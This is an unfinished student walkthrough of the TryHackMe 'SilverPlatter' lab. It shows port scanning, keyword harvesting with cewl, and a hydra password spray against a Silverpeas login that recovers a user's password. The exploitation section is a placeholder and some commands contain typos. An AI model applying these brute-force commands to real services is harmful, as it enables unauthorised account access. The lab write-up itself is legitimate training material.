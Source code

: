 ```yaml
---
layout: default
title: "TryHackMe: SilverPlatter Walkthrough (Easy)"
date: 2025-07-16
---
```


# SilverPlatter Walkthrough (Easy)


## Overview
As part of the class "Introduction to Hacking Methodology" <https://academy.simplycyber.io/p/introduction-to-hacking-methodology> 
I took these notes while hacking a machine called silver-platter:
<https://www.notion.so/Introduction-to-Hacking-Methodology-GitHub-Pages-23346f98ca3080d18194f3b09c709143?source=copy_link>

This is an introductory class and the difficulty of the Linux machine is fairly low; still, this is the first mtime that I have managed to hack one (with some help from one video) and I am very proud of it, so I decided to put this page together to help other students like me. My main focus is in highlighting the reasoning behind the commands, as opposed to simply listing all the required steps without justification or context.

When you look at my solution, do not get discouraged because you fear you would never think about doing some of these things, instead consider that:
1. I have been studying hacking for 6 solid months, and so far this easy machine is all I have to show for it.
2. I used Claude AI to help me every step of the way.
3. I am a software engineer that has been working for 25 years in Silicon Valley.
4. It took me 12 days to completely solve this machine and find both flags (5 days to find the first one.)
5. Since I was stuck during the privesc phase, I had to give a peek to a video in the course that essentially says "I am not gonna tell you yet how to privesc this machine, but I am going to tell you that it has something to do with the fact that tim belongs to the adm group." Sincerely, I don't know how many times I had already looked at the logs and didn't see the password, but once I knew that the solution HAD to be in the logs, I was finally able to see it; so what did I spend the last 7 days doing? In short, chasing rabbit holes, but it does not mean that it was all for nothing, in fact I believe that trying and failing is how I will eventually learn how to hack faster.


## Reconnaissance (information gathering)

### Port Scanning
We start with port scanning, that normally means using nmap; we are going to use nmap indirectly via rustscan because rustscan is fast, and we like not having to wait too long; the output is very long, so we are going to cut it down to the essential parts.

┌──(kali㉿kali)-[/opt]
└─$ rustscan -a 10.10.160.74 -- -A 
[...]
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       syn-ack ttl 61 nginx 1.18.0 (Ubuntu)
8080/tcp open  http-proxy syn-ack ttl 60
[...]
TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   79.35 ms  10.6.0.1
2   ... 3
4   149.33 ms silverplatter.thm (10.10.160.74)
[...]

From the TRACEROUTE section we see that the domain name is silverplatter.thm with IPv4 address 10.10.160.74

Action: we add both the domain and the IPv4 address to the /etc/hosts file, so we will be better able to reuse our commands even if IP address of the VM changes (because the VM's timeout expires):

/etc/hosts
[...]
<ipv4-address> <-tab-> silverplatter.thm
[...]

Notice that there should be a TAB at the end of the IPv4 address.

### 22/tcp (ssh) OpenSSH 8.9p1 [part 1]
From the port scanning output we gather that OpenSSH is on version 8.9p1 .

### 80/tcp (http) nginx 1.18.0 (Ubuntu)
From the port scanning output we gather that nginx (static web server) is on version 1.18.0 and that the operating system is Ubuntu Linux.

### http://silverplatter.thm:80
Since on port 80 we have a web server, the first thing we are going to do is to point a web browser to http://silverplatter.thm:80 and visually check the web site.

From the Contact section:

Contact
If you'd like to get in touch with us, please reach out to our project manager on Silverpeas. His username is "scr1ptkiddy".

we collect the following information
- Username: scr1ptkiddy
- Role: project manager
- Silverpeas (likely on port 8080)

So, it appears that there is a Silverpeas server (later we will find that it does run on port 8080) with a user named scr1ptkiddy, but we don't know the corresponding password yet.

It is also important, when looking at a web site, to use the View Source feature of all modern web brosers to see whether there are any obvious pieces of interesting information left by the developers in comments (things like users, passwords, and generally speaking, any type of information disclosure that would help us gain an advantage in our attempt to get into the machine.) Unfortunately, in this particular web site's source code there is nothing noteworthy.

### cewl
Since we know about a user named scr1ptkiddy for a Silverpeas server running on the machine we are attacking, it is worth collecting all keywords from the web pages of the web site, and later try to use a program like hydra to find the password for scr1ptkiddy.

Here is the command to scan the web site and collect all its keywords in a file:
cewl http:silverplatter.thm > silverplatter_keywords.txt

This command collects all keywords in silverplatter.thm and saves them into a file.

### hydra
We are going to use hydra to spray all the passwords in silverplatter_keywords.txt .

hydra requires several parameters.
First we run this command to learn more about how to authenticate with Silverpeas:

┌──(kali㉿kali)-[/tmp]
└─$ curl -s http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp | grep -E 'name=|type="password"|type="text"'
  <meta name="viewport" content="initial-scale=1.0"/>
          <label><span>Login</span><input type="text" name="Login" id="Login"/></label>
          <label><span>Password</span><input type="password" name="Password" id="Password" autocomplete="off"/></label>
            <input class="noDisplay" type="hidden" name="DomainId" value="0"/>

From the above output we see that the DomainId=0 hidden field is critical for Silverpeas authentication.

But we also need to identify a pattern in the Silverpeas’ response that allows us to identify incorrect passwords, so we run this command passing a "wrong password" on purpose (btw, wouldn't it be funny if we realized that 'wrongpassword' were the correct password?!):

┌──(kali㉿kali)-[/tmp]
└─$ curl -v -d "Login=scr1ptkiddy&Password=wrongpassword" http://silverplatter.thm:8080/silverpeas/AuthenticationServlet
[...]
Location: http://silverplatter.thm:8080/silverpeas/Login?ErrorCode=1&DomainId=-1
[...]

From the above we see that ErrorCode=1 appears in Silverpeas' responses when the server rejects incorrect passwords.

So, putting all of the above together, we get to finally write this hydra command:

┌──(kali㉿kali)-[/tmp]
└─$ hydra -l scr1ptkiddy -P silverplatter_keywords.txt silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:ErrorCode=1"
[...]
[8080][http-post-form] host: silverplatter.thm   login: scr1ptkiddy   password: adipiscing
[...]

*** PROBLEM: WE HAVEN'T EXPLAINED HOW WE KNOW THAT SILVERPEAS RUNS ON PORT 8080.

From the above output we see that adipiscing is the correct password for scr2ptkiddy.

### 8080/tcp (http-proxy)
Browsing to http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp we enter scr1ptkiddy and adipiscing:

*** PUT SCREENSHOT HERE

## Exploitation (use information gathered during reconnaissance)
Step-by-step walkthrough...


## Lessons Learned
Key takeaways from this challenge...
